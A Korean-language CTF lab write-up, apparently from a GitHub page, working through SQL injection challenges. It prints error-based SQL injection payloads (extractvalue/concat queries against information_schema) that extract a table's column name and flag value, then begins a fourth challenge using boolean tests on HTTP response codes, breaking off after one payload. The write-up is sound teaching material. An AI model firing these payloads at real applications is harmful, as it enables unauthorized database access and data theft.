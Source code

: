 - 테이블 이름까지 성공적으로 추출하였다. 이제 해당 테이블에서 컬럼명을 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli_2' and table_name='flag_table' limit 0,1))) and '1'='1
```

> 컬럼 이름: **flag**

- 이제 마지막으로, 이 컬럼에 저장된 **flag 값**을 추출해보겠다.

```html
' or extractvalue(1,concat(0x7e,(select flag from flag_table limit 0,1))) and '1'='1
```

![sqli3 flag](./screenshots/sqli3_flag.png)

**이렇게 해서 최종적으로 flag 값을 성공적으로 획득하였다.**

---

### SQL Injection 4

- 이번 문제 이전과 동일한 로그인 화면으로 시작된다.
> 계정 : normaltic / 1234

- 똑같이 문제에서 준 아이디/비번으로 로그인을 시도하니 로그인에 성공할 경우에는 `302 리다이렉션`, 실패할 경우에는 `200 OK 응답`이 반환된다.
이를 통해 **로그인 여부를 HTTP 응답 코드로 판별할 수 있음**을 알 수 있다.

우선, SQL 인젝션이 가능한지 확인하기 위해 간단한 테스트를 진행하였다.

- 아까와 똑같이 `normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이번에도 **Error Based SQL Injection** 기법을 사용하여 공격을 시도할 것이다.

```html
' or extractvalue(1,concat(0x7e,database())) and '1'='1
```

**실행 결과:**

![sqli4 database](./screenshots/sqli4_database.png)
